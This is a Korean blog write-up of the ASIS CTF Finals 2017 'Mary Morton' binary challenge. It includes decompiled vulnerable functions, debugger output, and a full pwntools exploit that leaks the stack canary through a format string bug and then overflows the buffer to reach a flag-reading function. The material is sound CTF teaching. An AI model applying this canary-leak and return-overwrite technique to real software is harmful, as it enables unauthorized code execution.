 ```yaml
---
layout: post
title: "ASIS CTF Finals 2017 - Mary Morton"
date: 2018-11-08
excerpt: "Simple FSB + BOF"
tags: [write-up]
comments: true
---
```

zerostorage를 풀다가 corruption 때문에 멘탈이 나가서 쉬운거 하나 잡았습니다..
* * *
```
~/pwn/prob/mary_morton st4nw@trust 20s
❯ checksec mary_morton 
[*] '/home/st4nw/pwn/prob/mary_morton/mary_morton'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
우선 SSP가 적용되어 있는 점을 고려해야할 것 같습니다.

```
~/pwn/prob/mary_morton st4nw@trust
❯ ./mary_morton
Welcome to the battle ! 
[Great Fairy] level pwned 
Select your weapon 
1. Stack Bufferoverflow Bug 
2. Format String Bug 
3. Exit the battle
```
메인 메뉴에서는 1번 Stack BOF와 2번 FSB 중 하나를 고를 수 있습니다.

#### 1. Stack Bufferoverflow
```c
unsigned __int64 sub_400960()
{
  char buf; // [rsp+0h] [rbp-90h]
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(&buf, 0, 0x80uLL);
  read(0, &buf, 0x100uLL);
  printf("-> %s\n", &buf);
  return __readfsqword(0x28u) ^ v2;
}
```
0x88 크기의 버퍼에 0x100 만큼 입력받아 BOF가 발생합니다.

canary를 leak하면 eip를 덮을 수 있을 것 같습니다.

#### 2. FSB
```c
unsigned __int64 sub_4008EB()
{
  char buf; // [rsp+0h] [rbp-90h]
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(&buf, 0, 128uLL);
  read(0, &buf, 0x7FuLL);
  printf(&buf, &buf);
  return __readfsqword(0x28u) ^ v2;
}
```
FSB를 대놓고 줍니다.

### Exploit

canary를 leak하면 eip를 덮을 수 있기에 FSB로 leak를 하는 것이 우선입니다.

이를 위해 FSB 이후 canary 값을 검증하는 루틴에 bp를 걸고 분석했습니다.

```
pwndbg> r
Starting program: /home/st4nw/pwn/prob/mary_morton/mary_morton 
Welcome to the battle ! 
[Great Fairy] level pwned 
Select your weapon 
1. Stack Bufferoverflow Bug 
2. Format String Bug 
3. Exit the battle 
2
%p
0x7fffffffded0
```
%p를 입력한 결과 0x7fffffffded0를 출력합니다. 스택에서 이 값과 canary가 얼마나 떨어져있는지 알아보겠습니다.

```
► 0x40094a    mov    rax, qword ptr [rbp - 8]
  0x40094e    xor    rax, qword ptr fs:[0x28]
  0x400957    je     0x40095e
pwndbg> ni
pwndbg> p $rax
$5 = -8380890034417386496
```
rax(canary)는 -8380890034417386496 = 0x8BB118EAE4F0BC00 입니다. 현재 스택의 값을 보겠습니다.

```
.
.
0x7fffffffde90:	0x00007fffffffded0	0x0000000000000000 -> printed data
0x7fffffffdea0:	0x0000000000000000	0x00007fffffffdeb0
0x7fffffffdeb0:	0x0000000000000000	0x00007ffff7ffe168
0x7fffffffdec0:	0x0000000000000003	0x0000000000400949
0x7fffffffded0:	0x00000000000a7025	0x0000000000000000
0x7fffffffdee0:	0x0000000000000000	0x0000000000000000
0x7fffffffdef0:	0x0000000000000000	0x0000000000000000
0x7fffffffdf00:	0x0000000000000000	0x0000000000000000
0x7fffffffdf10:	0x0000000000000000	0x0000000000000000
0x7fffffffdf20:	0x0000000000000000	0x0000000000000000
0x7fffffffdf30:	0x0000000000000000	0x0000000000000000
0x7fffffffdf40:	0x0000000000000000	0x0000000000000000
0x7fffffffdf50:	0x0000000000000000	0x8bb118eae4f0bc00 -> canary
0x7fffffffdf60:	0x00007fffffffdfa0	0x00000000004008b8
0x7fffffffdf70:	0xff00000000000000	0x00007fffffffe098
0x7fffffffdf80:	0x00007fffffffe088	0x0000000100400730
0x7fffffffdf90:	0x00000002ffffe080	0x8bb118eae4f0bc00 -> canary
0x7fffffffdfa0:	0x0000000000400a50	0x00007ffff7a2d830
.
.
```
출력된 값에서 얼마 떨어지지않은 곳에 canary가 두 군데 존재합니다.

FSB에 입력할 값으로 %23$p 혹은 %31$p을 입력하면 leak이 가능합니다.

system("/bin/cat flag")하는 함수가 존재하고 canary의 값까지 구했으니 이제 남은 것은

Stack BOF에서 터지는 BOF로 간단하게 플래그를 읽는 것입니다.

exp.py
```python
from pwn import *

p = process('./mary_morton')
context.log_level = 'debug'

p.recvuntil('3. Exit the battle')

payload = "%23$p"

p.sendline('2')
p.sendline(payload)

p.recv()
p.recvuntil('0x')
canary = int(p.recvline(), 16)

log.info('Canary : ' + str(hex(canary)))

p.recvuntil('3. Exit the battle')

payload = "A" * 136

payload += p64(canary)
payload += "A" * 8
payload += p64(0x4008da)

p.sendline('1')
p.sendline(payload)

p.interactive()
```

```
~/pwn/prob/mary_morton st4nw@trust
❯ python exp.py
[+] Starting local process './mary_morton': pid 9000
[DEBUG] Received 0x8f bytes:
    'Welcome to the battle ! \n'
    '[Great Fairy] level pwned \n'
    'Select your weapon \n'
    '1. Stack Bufferoverflow Bug \n'
    '2. Format String Bug \n'
    '3. Exit the battle \n'
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Sent 0x6 bytes:
    '%23$p\n'
[DEBUG] Received 0x5a bytes:
    '0xdad0fa5f85ddaf00\n'
    '1. Stack Bufferoverflow Bug \n'
    '2. Format String Bug \n'
    '3. Exit the battle \n'
[*] Canary : 0xdad0fa5f85ddaf00
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Sent 0xa1 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000080  41 41 41 41  41 41 41 41  00 af dd 85  5f fa d0 da  │AAAA│AAAA│····│_···│
    00000090  41 41 41 41  41 41 41 41  da 08 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    000000a0  0a                                                  │·│
    000000a1
[*] Switching to interactive mode
 
[DEBUG] Received 0x8c bytes:
    '-> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
-> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[DEBUG] Received 0x2f bytes:
    'ASIS{An_impROv3d_v3r_0f_f41rY_iN_fairy_lAnds!}\n'
ASIS{An_impROv3d_v3r_0f_f41rY_iN_fairy_lAnds!}
[*] Got EOF while reading in interactive
$  
```
